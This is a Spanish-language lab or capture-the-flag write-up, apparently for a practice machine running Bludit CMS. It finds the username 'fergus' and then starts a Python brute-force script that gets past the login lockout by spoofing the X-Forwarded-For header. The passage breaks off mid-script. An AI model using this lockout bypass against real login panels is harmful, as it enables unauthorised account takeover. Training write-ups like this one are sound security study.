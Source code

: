 ```bash
"http://10.10.10.191/todo.txt   "

-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform "fergus" that the new blog needs images - PENDING					
-Encontramos un "User": "fergus"
``` 
Teniendo un Usuario valido, probamos a hacer fuerza bruta contra el panel login del CMS Bludit y nos salta un bloqueo a los 10 intentos.
Miramos en searchsploit Bludit CMS 
Vemos que hay varias reportes interesantes
Nos fijamos en el de Metasploit y lo inspeccionamos para ver que esta haciendo, y vemos que para hacer fuerza bruta cambia el valor de la cabecera  X-Forwarded-For

# Haciendo Bypass Brute Force al Panel Login de Bludit CMS
Nos montamos un script en python3 para conseguir hacer fuerza bruta contra el panel login y saltarnos el bloqueo atraves de la cabecera X-Forwarded-For
```python
#!/usr/bin/python3

import sys
import time  
import requests
import signal
import re 
import pdb

from pwn import *  

def def_handler(sig, frame):
        print("\n[*] Saliendo . . .\n")
        sys.exit(1)

#Ctrl + C
signal.signal(signal.SIGINT, def_handler)

#Variable Global
main_url = "http://10.10.10.191/admin/login.php"


def makeRequest():
# peticion s que almacena la session(Cookies, etc)
        s = requests.session()

# Creamos la variable f que nos abra el archivo diccionario en modo read
        f = open("diccionario.txt", "r")
# Barras de Progreso
        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando Ataque de Fuerza Bruta")
        time.sleep(2)

# Creando el bucle para realizar fuerza bruta  
        for password in f.readlines():

# Pillando el tokenCSRF con la libreria RE y usando expresiones regulares para filtrar por la data de "value=", a niver de la respuesta de la peticion response
                response = s.get(main_url)
                tokenCSRF = re.findall(r'name="tokenCSRF" value="(.*?)"', response.text)[0]

# Campo del login, Data que tramitamos
                data_post = {
```